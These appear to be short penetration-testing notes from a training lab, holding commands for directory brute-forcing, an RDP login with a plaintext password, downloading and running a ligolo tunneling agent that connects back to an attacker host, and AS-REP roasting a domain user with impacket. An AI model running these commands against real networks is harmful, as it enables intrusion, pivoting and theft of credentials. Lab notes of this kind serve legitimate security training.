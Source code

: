 ```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern`
```

```

# Command History
```c
xfreerdp3 /u:dmzadmin /p:SlimGodhoodMope /v:192.168.204.191

curl http://192.168.45.186/ligolo/agent.exe -o agent.exe

.\agent.exe -connect 192.168.45.186:4445 -ignore-cert

// on kali need password?
impacket-GetNPUsers -dc-ip 172.16.164.6 -request -outputfile hashes.asreproast relia.com/jim


```
